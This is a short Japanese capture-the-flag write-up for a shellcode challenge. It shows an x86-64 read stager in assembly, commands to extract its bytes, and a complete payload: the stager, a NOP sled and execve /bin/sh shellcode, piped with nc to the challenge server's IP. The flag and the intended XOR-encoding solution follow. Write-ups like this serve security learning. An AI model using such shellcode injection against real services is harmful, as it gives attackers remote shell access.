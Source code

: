 stagerは書いたことが無かったので、ネットで適当に拾ってきた以下のコードを用いた。

```
; stager.s
BITS 64
global _start

_start:
  jmp stager1
pc:
  pop rsi
  jmp stager2
stager1:
  xor rax,rax
  push rax
  pop rdi
  push rax
  pop rdx
  inc rdx
  shl rdx,10
  call pc
stager2:
  add rsi,6
  syscall
```

これをアセンブルして文字列として取り出し、[shell-storm](<http://shell-storm.org/shellcode/files/shellcode-905.php>)から取ってきた シェルコードにNOPスレッドを挟んでつなげて投げた。

```
nasm -f elf64 stager.s
ld -s -o a.out stager.s
objdump -M intel -d a.out | grep '^ ' | cut -f2 | perl -pe 's/(\w{2})\s+/\\x\1/g'
```

```
(echo -e '\xeb\x03\x5e\xeb\x13\x48\x31\xc0\x50\x5f\x50\x5a\x48\xff\xc2\x48\xc1\xe2\x0a\xe8\xea\xff\xff\xff\x48\x83\xc6\x06\x0f\x05\n\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05' ; cat - ) | nc 153.120.129.186 20000
```



flagは `ctf4b{Byp4ss_us!ng6_X0R_3nc0de}`

どうやら想定解はxor encodeというものらしい。



他の人のwriteup見てると、"binsh"が含まれないシェルコードはネット上に普通に転がっているらしい、、、。
